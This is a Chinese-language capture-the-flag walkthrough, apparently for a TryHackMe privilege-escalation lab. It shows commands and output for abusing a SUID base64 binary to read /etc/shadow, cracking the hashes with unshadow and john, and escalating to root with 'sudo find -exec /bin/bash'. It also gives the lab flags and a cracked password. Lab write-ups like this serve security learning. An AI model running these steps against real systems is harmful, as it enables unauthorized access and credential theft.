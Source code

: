 sudo -l什么都没有

尝试查找设置了suid的文件：

<pre>[leonard@ip-10-10-241-187 ~]$ find / -type f -perm -04000 2&gt;/dev/null
/usr/bin/base64
/usr/bin/crontab
.....
</pre>

读取/etc/passwd和/etc/shadow然后使用unshadow合并，使用john爆破：

<pre><font color="#367BF0">──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">scp</font> leonard@10.10.241.187:/etc/passwd ./passwd
(leonard@10.10.241.187) Password: 
passwd                                        100% 2789     5.5KB/s   00:00</pre>

<pre>[leonard@ip-10-10-241-187 ~]$ base64 /etc/shadow | base64 -d
</pre>

<pre><font color="#367BF0">──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">unshadow</font> <u style="text-decoration-style:single">./passwd</u> <u style="text-decoration-style:single">./shadow</u> <font color="#277FFF"><b>&gt;</b></font> p_s.txt
Created directory: /root/.john
                                                                                
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">john</font> <font color="#9755B3">--wordlist=/usr/share/wordlists/rockyou.txt</font> <u style="text-decoration-style:single">./p_s.txt</u>
</pre>

结果:

<pre><font color="#FEA44C">Password1</font>        (<font color="#FEA44C">missy</font>) </pre>

登录ssh，查找flag1并尝试读取:

<pre>[missy@ip-10-10-241-187 ~]$ find -name flag1.txt 2&gt;/dev/null
./Documents/flag1.txt
[missy@ip-10-10-241-187 ~]$ cat ./Documents/flag1.txt
THM-42828719920544
</pre>

THM-42828719920544

### flag2.txt文件的内容是什么？

在missy账号上查看sudo -l ，发现可以使用find,可以尝试提权

<pre>[missy@ip-10-10-241-187 ~]$ sudo find . -exec /bin/bash \;
[root@ip-10-10-241-187 missy]# locate flag2.txt
/home/rootflag/flag2.txt
[root@ip-10-10-241-187 missy]# cat /home/rootflag/flag2.txt
THM-168824782390238
</pre>
